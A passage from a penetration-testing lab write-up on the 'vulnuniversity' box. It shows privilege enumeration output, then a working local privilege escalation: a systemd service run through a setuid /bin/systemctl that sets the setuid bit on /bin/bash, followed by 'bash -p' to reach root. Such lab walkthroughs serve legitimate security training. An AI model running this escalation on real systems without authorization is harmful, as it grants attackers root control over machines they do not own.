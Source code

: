 ```
===================================================================( sudo )=====
[!] sud000 Can we sudo without a password?................................. nope
[!] sud010 Can we list sudo commands without a password?................... nope
[!] sud020 Can we sudo with a password?.................................... nope
[!] sud030 Can we list sudo commands with a password?...................... nope
[*] sud040 Can we read /etc/sudoers?....................................... nope
[*] sud050 Do we know if any other users used sudo?........................ nope
============================================================( file system )=====
[*] fst000 Writable files outside user's home.............................. yes!
[*] fst010 Binaries with setuid bit........................................ yes!
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/lib/squid/pinger
/bin/systemctl
/sbin/mount.cifs
```
`/bin/systemctl` looks good.
We can check if there any known ways to PrivEsc by abusing SUID bit in the binary by checking it's [GTFOBin](https://gtfobins.github.io/gtfobins/systemctl/#suid) page.

We will create a service, run it with /bin/systemctl. In that case, it will be executed with root permissions, and then we can call the day.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Creating a reverse root shell can also be the option, but let's try this one.
We should have a SUID bit on the /bin/bash binary now:
```
www-data@vulnuniversity:/tmp$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K May 16  2017 /bin/bash
www-data@vulnuniversity:/tmp$ /bin/bash

bash-4.3$ whoami
whoami
www-data
bash-4.3$
```
What?! Still not a root? But SUID bit is there!
Yes, it is, but you have to use `-p` flag to make it work:
```
www-data@vulnuniversity:/tmp$ /bin/bash -p

bash-4.3# whoami
whoami
root
```
---

## Takeaway
- Enumeration is the key to everything
- Always try to fuzz the functionality of the endpoint
- This is a penetration test series, not a CTF. Focus on shells, not flags.
